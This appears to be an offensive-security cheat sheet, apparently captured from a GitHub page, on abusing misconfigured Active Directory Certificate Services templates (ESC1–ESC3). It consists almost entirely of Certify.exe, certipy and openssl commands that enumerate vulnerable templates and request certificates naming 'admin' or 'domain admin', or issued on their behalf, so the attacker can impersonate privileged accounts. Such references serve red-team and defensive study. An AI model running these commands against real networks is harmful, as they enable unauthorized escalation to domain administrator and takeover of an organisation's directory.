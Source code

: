 **ESC1 & 2**

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser

# Request certificate with SAN
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"

# Convert PEM to PFX (from Linux)
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

**ESC2 & 3**

```powershell
# Request an enrollment agent certificate
Certify.exe request /ca:CA.contoso.local\CA /template:Vuln-EnrollAgentTemplate

# Request a certificate on behalf of another to a template that allow for domain authentication
Certify.exe request /ca:CA.contoso.local\CA /template:User /onbehalfon:CONTOSO\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

#### Linux

**ESC1 & 2**

```bash
# enumerate and save text, json and bloodhound (original) outputs
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -old-bloodhound

# quickly spot vulnerable elements
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

**ESC2 & 3**

```bash
# Request a certificate specifying the Certificate Request Agent EKU
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'

# Used issued certificate to request another certificate on behalf of another user
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'User' -on-behalf-of 'contoso\domain admin' -pfx 'user.pfx'
```
